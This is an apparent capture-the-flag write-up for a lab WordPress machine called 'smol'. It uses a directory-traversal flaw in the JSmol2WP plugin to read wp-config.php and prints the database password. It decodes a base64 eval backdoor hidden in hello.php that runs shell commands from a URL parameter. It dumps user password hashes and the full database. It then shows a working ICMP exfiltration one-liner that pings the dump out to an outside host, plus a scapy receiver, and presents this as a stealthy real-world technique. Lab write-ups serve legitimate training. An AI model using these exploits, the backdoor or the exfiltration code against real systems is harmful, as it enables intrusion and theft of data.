




## Debugging page content
We were just messing around, exploring the page content with curl, and eventually, we stumbled upon the domain.

<br>

```bash
~/thm/smol > curl -v 10.10.30.198                                                                                                                             
*   Trying 10.10.30.198:80...
* Connected to 10.10.30.198 (10.10.30.198) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 10.10.30.198
> User-Agent: curl/8.10.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 302 Found
< Date: redacted
< Server: Apache/2.4.41 (Ubuntu)
< Location: http://www.smol.thm
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 10.10.30.198 left intact
```
## Adding host 
Lets add to our local host file 
```bash
~/thm/smol > echo "10.10.30.198 www.smol.thm smol.thm" | sudo tee -a /etc/hosts
```

## Endpoint
We were clicking around, looking for links that might be useful for further analysis, and after a short while, we found the `login.php` page.



## Service scanning 
Port scanning didn't reveal anything important, but since we already knew the target machine was hosting WordPress, I moved on to exploring the page.
```bash
~/thm/smol > IP=10.10.30.198;\                                                                                                                            20s 
> nmap -sC -sV -p$(nmap -p- --min-rate=2000 -T4 $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/, $//') $IP -oN tcp.txt 
Starting Nmap 7.94SVN ( https://nmap.org ) at [redacted] PST
Nmap scan report for www.smol.thm (10.10.30.198)
Host is up (0.55s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 6.4.3
|_http-title: AnotherCTF
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.04 seconds
```

## Directory Listing
In this directory listing, we found a plugin, so I decided to run WPScan to check for any vulnerabilities. After running the scan, I discovered a few potential issues, including outdated plugins
```bash
~/thm/smol > feroxbuster -u http://www.smol.thm -w /usr/share/seclists/Discovery/Web-Content/common.txt -C 404,500,301 --scan-dir-listings --silent --output smol.dir

~/thm/smol > cat smol.dir | grep plugin                                                                                                                       
MSG      0.000 feroxbuster::heuristics detected directory listing: http://www.smol.thm/wp-content/plugins/jsmol2wp/ (Apache)
200      GET       54l      231w     2036c http://www.smol.thm/wp-content/plugins/jsmol2wp/jsmol_template.htm
200      GET      258l     2327w   131613c http://www.smol.thm/wp-content/plugins/jsmol2wp/JSmol.min.nojq.js
200      GET        0l        0w        0c http://www.smol.thm/wp-content/plugins/
200      GET      448l     3848w   229129c http://www.smol.thm/wp-content/plugins/jsmol2wp/JSmol.min.js
200      GET        0l        0w        0c http://www.smol.thm/wp-content/plugins/jsmol2wp/class.jsMol2wp.php
200      GET       19l       63w      475c http://www.smol.thm/wp-content/plugins/jsmol2wp/updating_jsmol2wp.txt
200      GET      197l      596w     6400c http://www.smol.thm/wp-content/plugins/jsmol2wp/simple.htm
200      GET      158l     1189w     9204c http://www.smol.thm/wp-content/plugins/jsmol2wp/help.htm
200      GET      121l      846w     5321c http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
200      GET       30l      200w     3837c http://www.smol.thm/wp-content/plugins/jsmol2wp/
200      GET      642l     2105w    17959c http://www.smol.thm/wp-includes/js/dist/plugins.js
200      GET        2l      157w     4342c http://www.smol.thm/wp-includes/js/dist/plugins.min.js
```

## Vulnerability Identification 
```bash
wpscan --url http://www.smol.thm/
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://www.smol.thm/ [10.10.30.198]
[+] Started: Sun Jan 26 22:00:00 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.41 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://www.smol.thm/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://www.smol.thm/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://www.smol.thm/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://www.smol.thm/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.4.3 identified (Insecure, released on 2024-01-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://www.smol.thm/index.php/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>
 |  - http://www.smol.thm/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.4.3</generator>

[+] WordPress theme in use: twentytwentythree
 | Location: http://www.smol.thm/wp-content/themes/twentytwentythree/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: http://www.smol.thm/wp-content/themes/twentytwentythree/readme.txt
 | [!] The version is out of date, the latest version is 1.6
 | [!] Directory listing is enabled
 | Style URL: http://www.smol.thm/wp-content/themes/twentytwentythree/style.css
 | Style Name: Twenty Twenty-Three
 | Style URI: https://wordpress.org/themes/twentytwentythree
 | Description: Twenty Twenty-Three is designed to take advantage of the new design tools introduced in WordPress 6....
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://www.smol.thm/wp-content/themes/twentytwentythree/style.css, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:10 <======================================> (137 / 137) 100.00% Time: 00:00:10

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: REDACTED
[+] Requests Done: 187
[+] Cached Requests: 5
[+] Data Sent: 45.648 KB
[+] Data Received: 22.04 MB
[+] Memory used: 283.418 MB
[+] Elapsed time: 00:00:30
```
```bash
> curl -s  http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt | head -10
=== JSmol2WP ===
Contributors: Jim Hu
Tags: shortcodes, JSmol, Jmol, molecular graphics, PDB
Requires at least: 3.0
Tested up to: 4.9.4
Donate link:http://biochemistry.tamu.edu/index.php/alum/giving/
Stable tag: 1.07
License: GPLv2 or later
License URI: http://www.gnu.org/licenses/gpl-2.0.html
Text domain:jsmol2wp
``` 

## Searching PoC
After searching for the `jsmol2wp` plugin, I found a vulnerability assigned CVE ID `2018-20463`. So, I decided to look for a public exploit to see if I could use it to gain access on the target system.
```bash
> sploitscan CVE-2018-20463

███████╗██████╗ ██╗      ██████╗ ██╗████████╗███████╗ ██████╗ █████╗ ███╗   ██╗
██╔════╝██╔══██╗██║     ██╔═══██╗██║╚══██╔══╝██╔════╝██╔════╝██╔══██╗████╗  ██║
███████╗██████╔╝██║     ██║   ██║██║   ██║   ███████╗██║     ███████║██╔██╗ ██║
╚════██║██╔═══╝ ██║     ██║   ██║██║   ██║   ╚════██║██║     ██╔══██║██║╚██╗██║
███████║██║     ███████╗╚██████╔╝██║   ██║   ███████║╚██████╗██║  ██║██║ ╚████║
╚══════╝╚═╝     ╚══════╝ ╚═════╝ ╚═╝   ╚═╝   ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
v0.10.5 / Alexander Hagenah / @xaitax / ah@primepage.de

╔════════════════════════╗
║ CVE ID: CVE-2018-20463 ║
╚════════════════════════╝

┌───[ 🔍 Vulnerability information ]
|
├ Published:   2018-12-25
├ Base Score:  N/A (N/A)
├ Vector:      N/A
└ Description: An issue was discovered in the JSmol2WP plugin 1.07 for WordPress. There is an arbitrary file read
               vulnerability via ../ directory traversal in query=php://filter/resource= in the
               jsmol.php query string. This can also be used for SSRF.

┌───[ ♾️ Exploit Prediction Score (EPSS) ]
|
└ EPSS Score:  4.54% Probability of exploitation.

┌───[ 🛡️ CISA KEV Catalog ]
|
└ ❌ No data found.

┌───[ 💣 Public Exploits (Total: 1) ]
|
├ GitHub
│  └ Date: 2022-08-22 - https://github.com/Henry4E36/CVE-2018-20463
│
└ Other
   ├ PacketStorm: https://packetstormsecurity.com/search/?q=CVE-2018-20463
   └ Nuclei: https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2018/CVE-2018-20463.yaml

┌───[ 🕵️ HackerOne Hacktivity ]
|
├ Rank:        7470
├ Reports:     0
└ Severity:    Unknown: 0 / None: 0 / Low: 0 / Medium: 0 / High: 0 / Critical: 0

┌───[ 🤖 AI-Powered Risk Assessment ]
|
|                                     
| ❌ OpenAI API key is not configured correctly.
|
└────────────────────────────────────────

┌───[ ⚠️ Patching Priority Rating ]
|
└ Priority:     A+

┌───[ 📚 Further References ]
|
├ https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96-amp-SSRF
└ https://wpvulndb.com/vulnerabilities/9197

```

## Vulnerability scanning (LFI) 
Upon further analysis, I discovered that the plugin was vulnerable to Local File Inclusion (LFI), allowing arbitrary file reading. This vulnerability was triggered by the use of a "nuclei" template, which I found in the `sploitscan` result.
```bash
Found a Nuclei template: https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2018/CVE-2018-20463.yaml
```

```bash
~/thm/smol > nuclei -u http://www.smol.thm -t smol/CVE-2018-20463.yaml

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.3.8

		projectdiscovery.io

[INF] Your current nuclei-templates  are outdated. Latest is v10.1.2
[INF] Successfully updated nuclei-templates (v10.1.2) to /home/kali/nuclei-templates. GoodLuck!

Nuclei Templates v10.1.2 Changelog
+-------+-------+---------+
| TOTAL | ADDED | REMOVED |
+-------+-------+---------+
| 10339 |     0 |   10339 |
+-------+-------+---------+
[INF] Current nuclei version: v3.3.8 (latest)
[INF] Current nuclei-templates version: v10.1.2 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 52
[INF] Templates loaded for current scan: 1
[INF] Executing 1 signed templates from projectdiscovery/nuclei-templates
[INF] Targets loaded for current scan: 1
[CVE-2018-20463] [http] [high] http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```

## User Credential
These credentials must be linked to the login.php page i think lets try it.
```bash
> curl -s http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php\?isform\=true\&call\=getRawDataFromDatabase\&query\=php://filter/resource\=../../../../wp-config.php | grep "DB"
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wpuser' );
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );
define( 'DB_HOST', 'localhost' );
define( 'DB_CHARSET', 'utf8' );
define( 'DB_COLLATE', '' );
``` 
## Wordpress login page


## RCE


# www-data
Looking at the hint in TryHackMe, there are two vulnerabilities for gaining initial access. The first is the LFI vulnerability, which allows reading credentials, and the second is an RCE found in the `Hello Dolly` plugin. This is quite interesting because it appears someone was already inside the system and planted a backdoor encoded in base64. So, every time the attacker visits the site, they already have access. This method is pretty common in web hacking scenarios, especially when administrators aren't performing regular penetration testing or code audits as part of their daily tasks.

<br>

What it does is simply search for `hello.php` in the current directory, which has a lot of files. So, I decided to use `find` to search through the directory and then pipe the results to `grep 'hello.php'` to identify which files contain `hello.php` in their content. This approach helps narrow down the search and pinpoint exactly where the data related to `hello.php` is located.

```bash
!w /usr/sh/sec/D/Web-Content > find . -type f -exec grep -l "hello.php" {} \;

./raft-small-files.txt
./CMS/trickest-cms-wordlist/wordpress-all-levels.txt
./CMS/trickest-cms-wordlist/wordpress.txt
./CMS/wp-plugins.fuzz.txt
./CMS/wordpress.fuzz.txt
./raft-large-files-lowercase.txt
./raft-medium-files.txt
./raft-small-files-lowercase.txt
./Common-PHP-Filenames.txt
./raft-medium-files-lowercase.txt
./raft-large-files.txt
./URLs/urls-wordpress-3.3.1.txt
```
```bash
~/thm/smol > gobuster dir -u  http://www.smol.thm/wp-content/plugins/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt               
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://www.smol.thm/wp-content/plugins/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 0]
/.htaccess            (Status: 403) [Size: 277]
/.                    (Status: 200) [Size: 0]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htm                 (Status: 403) [Size: 277]
/.htpasswds           (Status: 403) [Size: 277]
/hello.php            (Status: 500) [Size: 0]
/.htgroup             (Status: 403) [Size: 277]
[ERROR] Get "http://www.smol.thm/wp-content/plugins/mainfeed.aspx": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
/wp-forum.phps        (Status: 403) [Size: 277]
/.htaccess.bak        (Status: 403) [Size: 277]
Progress: 7682 / 17130 (44.85%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 7690 / 17130 (44.89%)
===============================================================
Finished
===============================================================
```


```bash
~/thm/smol > curl -s http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php\?isform\=true\&call\=getRawDataFromDatabase\&query\=php://filter/resource\=../../../../wp-content/plugins/hello.php | grep -w "eval"
```
```bash
eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
```

```php
// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
	
	$chosen = hello_dolly_get_lyric();
	$lang   = '';
	if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
		$lang = ' lang="en"';
	}

	printf(
		'<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
		__( 'Quote from Hello Dolly song, by Jerry Herman:' ),
		$lang,
		$chosen
	);
}

// Now we set that function up to execute when the admin_notices action is called.
add_action( 'admin_notices', 'hello_dolly' );
```
## Decoding backdoor obfuscated string
```bash 
> echo "CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=" | base64 -d

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } %    
```



## Inital Access


```bash
www-data@smol:/home$ cat /etc/passwd | grep "sh$"
cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/usr/bin/bash
think:x:1000:1000:,,,:/home/think:/bin/bash
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
www-data@smol:/home$ 
```

## Post Enumeration
```bash
www-data@smol:/var/www/wordpress/wp-admin$ service --status-all
service --status-all
 [ - ]  apache-htcacheclean
 [ + ]  apache2
 [ + ]  apparmor
 [ + ]  apport
 [ + ]  atd
 [ - ]  console-setup.sh
 [ + ]  cron
 [ - ]  cryptdisks
 [ - ]  cryptdisks-early
 [ + ]  dbus
 [ - ]  grub-common
 [ - ]  hwclock.sh
 [ + ]  irqbalance
 [ - ]  iscsid
 [ - ]  keyboard-setup.sh
 [ + ]  kmod
 [ - ]  lvm2
 [ - ]  lvm2-lvmpolld
 [ + ]  multipath-tools
 [ + ]  mysql
 ...
 ...
www-data@smol:/var/www/wordpress/wp-admin$ 
```
### Mysql database 
```bash
www-data@smol:/var/www/wordpress/wp-admin$ mysql -u wpuser -p 
mysql -u wpuser -p 
Enter password: kbLSF2Vop#lw3rjDZ629*Z%G

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 89
Server version: 8.0.36-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| wordpress          |
+--------------------+
5 rows in set (0.00 sec)

mysql> USE wordpress;
USE wordpress;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed

mysql> show tables;
show tables;
+---------------------------+
| Tables_in_wordpress       |
+---------------------------+
| wp_bp_activity            |
| wp_bp_activity_meta       |
| wp_bp_invitations         |
| wp_bp_messages_messages   |
| wp_bp_messages_meta       |
| wp_bp_messages_notices    |
| wp_bp_messages_recipients |
| wp_bp_notifications       |
| wp_bp_notifications_meta  |
| wp_bp_optouts             |
| wp_bp_xprofile_data       |
| wp_bp_xprofile_fields     |
| wp_bp_xprofile_groups     |
| wp_bp_xprofile_meta       |
| wp_commentmeta            |
| wp_comments               |
| wp_links                  |
| wp_options                |
| wp_postmeta               |
| wp_posts                  |
| wp_signups                |
| wp_term_relationships     |
| wp_term_taxonomy          |
| wp_termmeta               |
| wp_terms                  |
| wp_usermeta               |
| wp_users                  |
| wp_wysija_campaign        |
| wp_wysija_campaign_list   |
| wp_wysija_custom_field    |
| wp_wysija_email           |
| wp_wysija_email_user_stat |
| wp_wysija_email_user_url  |
| wp_wysija_form            |
| wp_wysija_list            |
| wp_wysija_queue           |
| wp_wysija_url             |
| wp_wysija_url_mail        |
| wp_wysija_user            |
| wp_wysija_user_field      |
| wp_wysija_user_history    |
| wp_wysija_user_list       |
+---------------------------+
42 rows in set (0.01 sec)
```
### Dump wp_users
> command: `SELECT ID, user_login, user_pass, user_email FROM wp_users`
```bash
mysql> SELECT ID, user_login, user_pass, user_email FROM wp_users;

SELECT ID, user_login, user_pass, user_email FROM wp_users;
+----+------------+------------------------------------+--------------------+
| ID | user_login | user_pass                          | user_email         |
+----+------------+------------------------------------+--------------------+
|  1 | admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. | admin@smol.thm     |
|  2 | wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. | wp@smol.thm        |
|  3 | think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ | josemlwdf@smol.thm |
|  4 | gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 | gege@smol.thm      |
|  5 | diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 | diego@local        |
|  6 | xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 | xavi@smol.thm      |
+----+------------+------------------------------------+--------------------+
6 rows in set (0.00 sec)

mysql> 
```
### Dump all wordpress database
```bash
www-data@smol:/var/www/wordpress/wp-admin$ mysqldump -u wpuser -p wordpress  > wordpress_dump.sql
mysqldump -u wpuser -p wordpress  > wordpress_dump.sql
Enter password: kbLSF2Vop#lw3rjDZ629*Z%G

www-data@smol:/var/www/wordpress/wp-admin$ ls -al wordpress_dump.sql 
ls -al wordpress_dump.sql 
-rw-r--r-- 1 www-data www-data 306090 Jan 27 09:40 wordpress_dump.sql

www-data@smol:/var/www/wordpress/wp-admin$ 
```
### Exfiltration data via ICMP request, stealth (realworld scenario) 
```bash
www-data@smol:/var/www/wordpress/wp-admin$ xxd -p -c 4 wordpress_dump.sql | while read line; do ping -c 1 -p $line 10.23.42.147; done
```
### Receiver (kali - tun0)
You can also modify this ip address if you already have a public c2 server example: http://c2-server.com/exfiltration/verybad/  
> exfil_ICMP-receiver.py 
```py
from scapy.all import *
# Function to process each packet
def process_packet(pkt):
    if pkt.haslayer(ICMP):  # Check if the packet has an ICMP layer
        if pkt[ICMP].type == 0:  # Check if it's an ICMP echo reply (type 0)
            try:
                # Extract the last 4 bytes from the packet load and decode them
                data = pkt[ICMP].load[-4:]
                print(f"Received Data: {data.decode('utf-8')}", flush=True, end="")
            except UnicodeDecodeError:
                print("Non-UTF-8 data received. Skipping...", flush=True)

# Start sniffing on the "tun0" interface with a filter for ICMP packets only
sniff(iface="tun0", filter="icmp", prn=process_packet, store=0)  # store=0 prevents Scapy from storing packets in memory
```
## To be continued....
